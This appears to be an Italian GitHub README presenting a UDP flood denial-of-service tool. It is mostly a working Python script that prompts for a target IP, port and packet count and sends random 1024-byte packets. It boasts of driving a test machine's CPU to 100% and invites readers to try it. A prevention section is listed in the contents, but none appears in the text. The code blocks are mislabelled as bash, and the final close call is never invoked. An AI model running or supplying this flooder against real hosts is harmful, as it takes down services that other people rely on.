

# **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice
1. [Codice](#Codice)
2. [Prestazioni](#Prestazioni)
3. [Prevenzioni](#Prevenzioni)

## Codice
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni**
<p>Questo screenshot mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale 
</p> 


Provare per credere😅


